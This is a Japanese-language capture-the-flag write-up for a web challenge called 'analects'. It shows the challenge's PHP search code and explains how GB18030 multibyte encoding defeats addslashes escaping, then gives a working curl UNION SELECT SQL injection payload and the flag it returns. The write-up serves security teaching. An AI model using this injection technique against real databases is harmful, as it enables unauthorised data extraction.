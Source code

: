 # analects:web:XXXXpts
confucius was a cool guy I think he said some things  
[analects.tjc.tf](https://analects.tjc.tf/)  

Downloads  
[server.zip](server.zip)  

# Solution
サイトとソースが渡される。  
Analects of Confucius  
[site.png](site/site.png)  
論語の検索サイトのようだ。  
ソースを見るとphpは以下のようであった。  
```php
<?php

  mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);

  function search() {
    $ret = [];

    if (!isset($_GET["q"])) {
      return $ret;
    }

    $db = new mysqli("p:mysql", "app", "07b05ee6779745b258ef8dde529940012b72ba3a007c7d40a83f83f0938b5bf0", "analects");

    $query = addslashes($_GET["q"]);
    $sql = "SELECT * FROM analects WHERE chinese LIKE '%{$query}%' OR english LIKE '%{$query}%'";
    $result = $db->query($sql);

    while ($row = $result->fetch_assoc()) {
      $row["chinese"] = mb_convert_encoding($row["chinese"], "UTF-8", "GB18030");
      $row["english"] = mb_convert_encoding($row["english"], "UTF-8", "GB18030");
      array_push($ret, $row);
    }
    $result->free_result();

    return $ret;
  }

  header('Content-Type: application/json; charset=UTF-8');
  echo json_encode(search());
?>
```
SQLiが可能かと疑うが、`addslashes`に通っており安全に見える。  
ここで、GB18030という文字コードが使われていることに注目する。  
配布された1-dump.sqlにも`CHARSET=gb18030`とされている。  
よく知られている`addslashes`の文字コードを利用したSQLiである。  
入力として`%bf%27`を考えると`'`(`%27`)をエスケープするため`\'`(`%5c%27`)へ置換する。  
全体として`%bf%5c%27`となるが、先頭の`%bf%5c`が中国語のマルチバイト文字と解釈され、サニタイズに失敗する。  
これによりSQLiが可能となったので、ソースの3-flag.shよりわかるflagを取得すればよい。  
```bash
$ curl "https://analects.tjc.tf/search.php?q=%bf%27%20UNION%20SELECT%201,%201,%201,%201,%201,%20flag%20FROM%20flag%20--%20satoki"
[{"id":"1","book":"1","chapter":"1","number":"1","chinese":"1","english":"tjctf{h0w_t0_h4v3_go0d_mor4l5??}"}]
```
flagが得られた。  

## tjctf{h0w_t0_h4v3_go0d_mor4l5??}